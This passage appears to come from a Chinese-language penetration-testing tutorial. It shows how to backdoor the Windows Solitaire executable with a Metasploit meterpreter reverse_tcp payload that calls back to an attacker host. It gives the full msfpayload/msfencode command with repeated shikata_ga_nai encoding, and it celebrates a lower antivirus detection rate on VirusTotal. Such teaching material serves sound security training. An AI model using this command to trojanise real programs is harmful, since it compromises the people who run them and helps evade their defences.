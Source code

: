 我们将使用的最后一种技术是在可执行文件中创建后门的概念。我们喜欢这一点的原因是我们可以在任何合法的可执行文件中创建后门，当用户运行它时，它们将向我们发送一个 shell。我们将用于此实验的程序是`sol.exe`，即纸牌游戏程序。在使用编码器之前，我们必须从 Windows 机器上复制原始的`sol.exe`文件，并将其放在模板文件夹中，如下面的屏幕截图所示：

![混淆和编码](img/477-1_12_52.jpg)

一旦我们将文件放在正确的位置，我们将在可执行文件中创建后门，并再次使用`msfpayload`和`msfencode`的组合。输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.177.170 LPORT=443 R | msfencode -t exe -x sol.exe -k -o sol_bdoor.exe -e x86/shikata_ga_nai -c 3

```

这个命令的输出示例如下屏幕截图所示：

![混淆和编码](img/477-1_12_53.jpg)

由于我们已经使用了编码器，现在我们想要看看将其上传到 Virustotal 网站后会得到什么结果。以下是一个示例：

![混淆和编码](img/477-1_12_54.jpg)

我们的编码已经非常成功。现在只有 14%的产品会检测到我们的代码，所以这比以前好多了。而且，我们只做了三次迭代。我们可能还可以进一步改进，这是你可能想要尝试的，但对于我们的目的，我们将在这里停止编码。在这一点上，你将设置多处理程序，然后执行程序；此时，受害者将连接到你的机器。这个示例如下屏幕截图所示：
